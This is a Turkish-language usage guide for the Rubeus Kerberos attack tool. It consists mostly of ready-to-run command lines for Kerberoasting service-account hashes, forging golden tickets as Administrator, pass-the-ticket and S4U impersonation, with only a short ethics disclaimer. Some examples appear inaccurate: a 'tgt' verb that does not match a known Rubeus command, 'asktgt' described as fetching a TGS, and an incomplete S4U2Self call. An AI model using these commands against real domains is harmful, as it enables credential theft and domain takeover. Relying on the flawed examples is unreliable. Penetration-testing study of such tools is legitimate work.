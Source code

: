 # Rubeus Kullanım Kılavuzu

## Giriş
Rubeus, Kerberos kimlik doğrulama protokolünü manipüle ederek saldırı vektörlerini değerlendirmek için tasarlanmış güçlü bir C# aracıdır. Kırmızı takım faaliyetlerinde ve sızma testlerinde, özellikle Kerberos biletleriyle ilgili işlemleri gerçekleştirmek için yaygın olarak kullanılır.

---

## Gereksinimler
- Windows işletim sistemi
- Komut satırı erişimi
- Yeterli ayrıcalıklara sahip bir kullanıcı hesabı

---

## Özellikler
Rubeus aşağıdaki işlemleri gerçekleştirebilir:
- TGT (Ticket Granting Ticket) ve TGS (Ticket Granting Service) biletlerini isteyip yakalama
- Kerberoasting saldırıları
- Altın/Gümüş Bilet oluşturma
- Bilet yenileme ve iptal etme
- Pass-the-Ticket (Bileti Kullanarak Yetki Yükseltme)
- S4U (Service for User) işlevlerini kullanma

---

## Kullanım
### Yardım Mesajını Görüntüleme
Tüm kullanılabilir komutları ve parametreleri görmek için:
```cmd
Rubeus.exe help
```

### Temel İşlemler

#### 1. TGT Yakalama
Mevcut oturumun TGT bilgisini yakalamak için:
```cmd
Rubeus.exe tgt
```

#### 2. Kerberoasting
Kerberos servis hesaplarının hash’lerini yakalamak için:
```cmd
Rubeus.exe kerberoast
```
Opsiyonel olarak belirli bir SPN (Service Principal Name) belirtilebilir:
```cmd
Rubeus.exe kerberoast /spn:http/webserver.domain.local
```

#### 3. Altın Bilet Oluşturma
Bir Altın Bilet oluşturmak için gereken bilgileri sağlayarak:
```cmd
Rubeus.exe golden /rc4:HASH /user:USERNAME /domain:DOMAIN /sid:DOMAIN_SID
```

#### 4. Bileti Yükleme (Pass-the-Ticket)
Bir Kerberos biletini oturuma yüklemek için:
```cmd
Rubeus.exe ptt /ticket:PATH_TO_TICKET
```

#### 5. S4U2Self ve S4U2Proxy Kullanımı
S4U2Self işlevini kullanarak belirli bir kullanıcı için bilet talep etmek:
```cmd
Rubeus.exe s4u /user:TARGET_USER /rc4:HASH
```
S4U2Proxy ile bilet yükseltmesi yapmak için:
```cmd
Rubeus.exe s4u /impersonateuser:USER /domain:DOMAIN /dc:DC_IP /altservice:cifs
```

---

## Örnek Kullanımlar
### 1. TGT Yakalama ve Saklama
Mevcut oturumun TGT bilgisini yakalamak ve bir dosyaya kaydetmek için:
```cmd
Rubeus.exe tgt /outfile:TGT.kirbi
```

### 2. Hash Yakalama (Kerberoasting)
Etki alanındaki tüm SPN’lere yönelik hash yakalama işlemi:
```cmd
Rubeus.exe kerberoast /outfile:hashes.txt
```

### 3. Altın Bilet ile Yetki Yükseltme
Altın Bilet oluşturup yüklemek:
```cmd
Rubeus.exe golden /rc4:HASH /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890 /ptt
```

### 4. Servis Hesabı Bileti Alma
Belirli bir SPN için TGS talep etmek:
```cmd
Rubeus.exe asktgt /user:SPN_USER /rc4:HASH
```

---

## Güvenlik Notları
Rubeus yalnızca yasal ve etik amaçlarla kullanılmalıdır. Araç, sistem yöneticilerinin Kerberos yapılandırmalarını test etmesine ve güvenlik açıklarını gidermesine yardımcı olmak için tasarlanmıştır. Yetkisiz kullanım yasal sonuçlara yol açabilir.

---

## Kaynaklar
- [Rubeus GitHub](https://github.com/GhostPack/Rubeus)
- [Kerberos Belgeleri](https://learn.microsoft.com/en-us/windows-server/identity/kerberos)

---

Bu rehber, Rubeus aracını kullanarak Kerberos protokolü ile ilgili işlemleri gerçekleştirmenin temellerini kapsamaktadır. Daha fazla bilgi veya yardım için yukarıdaki kaynakları ziyaret edin.

